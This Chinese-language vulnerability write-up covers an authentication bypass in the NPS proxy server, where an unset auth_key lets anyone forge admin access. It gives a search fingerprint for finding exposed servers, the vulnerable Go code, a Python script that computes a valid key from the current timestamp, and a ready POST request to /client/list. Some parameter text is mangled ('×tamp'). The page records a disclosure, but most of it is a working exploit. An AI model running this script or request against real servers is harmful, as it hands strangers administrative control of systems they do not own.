




NPS auth_key 未授权访问漏洞¶
漏洞描述¶
NPS auth_key 存在未授权访问漏洞，当 nps.conf 中的 auth_key 未配置时攻击者通过生成特定的请求包可以获取服务器后台权限
漏洞影响¶
NPS
网络测绘¶
body="serializeArray()" && body="/login/verify"
漏洞复现¶
登录页面

在 web/controllers/base.go 文件中

md5Key := s.getEscapeString("auth_key")
timestamp := s.GetIntNoErr("timestamp")
configKey := beego.AppConfig.String("auth_key")
timeNowUnix := time.Now().Unix()
if !(md5Key != "" && (math.Abs(float64(timeNowUnix-int64(timestamp))) <= 20) && (crypt.Md5(configKey+strconv.Itoa(timestamp)) == md5Key)) {
if s.GetSession("auth") != true {
s.Redirect(beego.AppConfig.String("web_base_url")+"/login/index", 302)
}
} else {
s.SetSession("isAdmin", true)
s.Data["isAdmin"] = true
}
这里需要的参数为 配置文件 nps.conf 中的 auth_key 与 timestamp 的md5 形式进行认证，但在默认的配置文件中，auth_key 默认被注释，所以只需要可以获取到的参数 timestamp 就可以登录目标

import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()
print("auth_key=%s×tamp=%s" % (auth_key,int(now)))
验证POC
POST /client/list
search=&order=asc&offset=0&limit=10&auth_key=8c98b1bdedbc569c4e61eeaeb11ce772×tamp=1659838908
